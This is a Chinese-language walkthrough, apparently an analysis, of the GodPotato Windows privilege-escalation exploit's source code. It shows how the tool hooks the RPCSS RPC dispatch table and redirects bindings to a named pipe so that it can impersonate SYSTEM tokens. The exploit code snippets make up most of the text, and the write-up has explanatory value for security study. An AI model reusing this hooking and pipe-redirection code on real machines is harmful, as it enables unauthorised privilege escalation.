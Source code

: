 ```cpp
public void HookRPC()
        {
            uint old;
            VirtualProtect(DispatchTablePtr, (uint)(IntPtr.Size * dispatchTable.Length), 0x04, out old);
            Marshal.WriteIntPtr(DispatchTablePtr, Marshal.GetFunctionPointerForDelegate(useProtseqDelegate));
            IsHook = true;
        }
```



上述讲过了`UseProtseqFunctionParamCount`变量代表RPC函数的参数数量，根据RPC参数数量来匹配一个适合的委托

```cpp
// Code obfuscation support
else if (UseProtseqFunctionParamCount == 4)
{
delegateFun4 df4 = newOrcbRPC.fun4;
useProtseqDelegate = df4;
}
.....
.....
else {
throw new Exception($"UseProtseqFunctionParamCount == ${UseProtseqFunctionParamCount}");

}
```



在`GodPotatoContext.cs`的`NewOrcbRPC`类中定义了hook后的函数，即`fun`函数

`fun`函数首先定义了一个字符串数组`endpoints`，用于重定向命名管道的通信，然后将此字符串数组写入为进程新分配的内存中

`godPotatoContext.clientPipe`是一个特定的字符串，定义了一个命名管道的路径，当`RPCSS`调用hook后的RPC函数，就会修改RPC服务的绑定设置为指定的命名管道路径，从而让RPCSS连接进这个命名管道中，为后续的身份令牌模拟操作奠定基础

```cpp
public readonly string clientPipe = $"ncacn_np:localhost/pipe/{"GodPotato"}[\\pipe\\epmapper]";

public int fun(IntPtr ppdsaNewBindings, IntPtr ppdsaNewSecurity)
{
    string[] endpoints = { godPotatoContext.clientPipe, "ncacn_ip_tcp:fuck you !" };

    int entrieSize = 3;
    for (int i = 0; i < endpoints.Length; i++)
    {
        entrieSize += endpoints[i].Length;
        entrieSize++;
    }

    int memroySize = entrieSize * 2 + 10;

    IntPtr pdsaNewBindings = Marshal.AllocHGlobal(memroySize);

    for (int i = 0; i < memroySize; i++)
    {
        Marshal.WriteByte(pdsaNewBindings, i, 0x00);
    }

    int offset = 0;

    Marshal.WriteInt16(pdsaNewBindings, offset, (short)entrieSize);
    offset += 2;
    Marshal.WriteInt16(pdsaNewBindings, offset, (short)(entrieSize - 2));
    offset += 2;
```